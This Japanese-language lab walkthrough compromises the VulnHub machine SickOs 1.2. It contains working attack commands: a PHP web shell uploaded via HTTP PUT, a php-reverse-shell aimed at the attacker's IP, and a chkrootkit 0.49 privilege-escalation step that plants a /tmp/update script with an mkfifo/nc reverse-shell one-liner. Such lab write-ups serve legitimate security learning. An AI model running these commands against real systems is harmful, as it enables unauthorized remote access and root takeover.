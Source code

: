 ## Description
- SickOs: Level 1.2を利用してリバースシェルによる特権昇格を学ぶ
- Kalilinuxを攻撃サーバとしてVM環境に構築。KioptrixもVM環境で構築する

### 参考情報
https://www.vulnhub.com/
https://www.vulnhub.com/entry/sickos-12,144/

Kalilinuxの構築
https://qiita.com/y-araki-qiita/items/4621a21e9f0d2e38c331
SixOsのサーバ構築
https://medium.com/@obikag/how-to-get-kioptrix-working-on-virtualbox-an-oscp-story-c824baf83da1

## 1, IPアドレスを特定する
- `netdiscover`コマンドにてIPを調査

## 2, 特定したIPに対してNmapスキャンを実行し、使用しているサービスを特定する
- `nmap`コマンドにて使用サービスを調査 
```
$ nmap -Pn 192.168.3.42
Nmap scan report for 192.168.3.42
Host is up (0.00067s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.45 seconds
```
2つのポート(80,22)が空いてるのを確認

## 3, 80ポートが空いているのでブラウザからアクセスをしてみる
- http://192.168.3.42
画像が表示される


## 4, dirbを使用してディレクトリ走査
```
$ dirb http://192.168.3.42
```
http://192.168.3.38/test　というディレクトリを発見
アクセスするとtest配下のファイルが表示される

## 5, curlでHTTP OPTIONSを調査する
```
$ curl -v -X OPTIONS http://192.168.3.42/test/
*   Trying 192.168.3.42...
* TCP_NODELAY set
* Connected to 192.168.3.42 (192.168.3.42) port 80 (#0)
> OPTIONS /test/ HTTP/1.1
> Host: 192.168.3.42
> User-Agent: curl/7.64.1
> Accept: */*
>
< HTTP/1.1 200 OK
< DAV: 1,2
< MS-Author-Via: DAV
< Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
< Allow: OPTIONS, GET, HEAD, POST
< Content-Length: 0
< Date: Thu, 16 Apr 2020 12:57:37 GMT
< Server: lighttpd/1.4.28
<
* Connection #0 to host 192.168.3.42 left intact
* Closing connection 0
```
POSTがALLOWされていた

## 6, curlでphpファイルをアップロードしてみる
```
$ curl -v -X PUT -d '<?php system($_GET["cmd"]);?>' http://192.168.3.42/test/cmd.php
*   Trying 192.168.3.42...
* TCP_NODELAY set
* Connected to 192.168.3.42 (192.168.3.42) port 80 (#0)
> PUT /test/cmd.php HTTP/1.1
> Host: 192.168.3.42
> User-Agent: curl/7.64.1
> Accept: */*
> Content-Length: 29
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 29 out of 29 bytes
< HTTP/1.1 201 Created
< Content-Length: 0
< Date: Thu, 16 Apr 2020 13:06:34 GMT
< Server: lighttpd/1.4.28
<
* Connection #0 to host 192.168.3.42 left intact
* Closing connection 0
```
成功。http://192.168.3.42/test/配下にアクセスするとcmd.phpが作成されている

## 7, アップロードしたファイルを実行する
http://192.168.3.42/test/cmd.php?cmd=ls
lsの実行結果が表示されている

## リバースシェルファイルをアップロードする
対象のサーバにファイルをアップロード出来たので、リバースシェルのファイルをアップロードしてみる
使用するのはphp-reverse-shell
```
$ cp /usr/share/webshells/php/php-reverse-shell.php exploit.php
$ vi exploit.php
ip = '192.168.3.39' #待ち受けサーバのIPに変換
port = '443'

# nmapコマンドを使用してアプロード
$ nmap -p 80 192.168.3.42 --script http-put --script-args http-put.url='/test/exploit.php',http-put.file='exploit.php'
```

## 8, 攻撃サーバにて待ち受け&リバースシェルファイルの実行
```
# sudo nc -lvp 443
```
ブラウザにてhttp://192.168.3.42/test/exploit.phpにアクセス
待ち受けサーバにアクセスされたら成功

## 9,サーバ内調査
cronの内容を調査
```
# ls /etc/cron.daily
apt
aptitude
bsdmainutils
chkrootkit
dpkg
lighttpd
logrotate
man-db
mlocate
passwd
popularity-contest
standard
```
chkrootkitのバージョンを調査
```
# chkrootkit -V
chkrootkit version 0.49
```

## 10, 脆弱性の調査
```
# searchsploit chkrootkit
```
`exploits/linux/local/33899.txt` の記載にしたがって特権昇格を狙う

## 11, tmp配下にファイルを仕込む
```
$ cd /tmp             
$ echo '#!/bin/bash' > update
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.3.39 443 >/tmp/f' >> update
$ chmod 777 update
```
攻撃サーバにて443ポートで待ち受けると応答がある
```
# sudo nc -lvp 443
```

## root昇格
```
# cd /root
# cat 7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
```





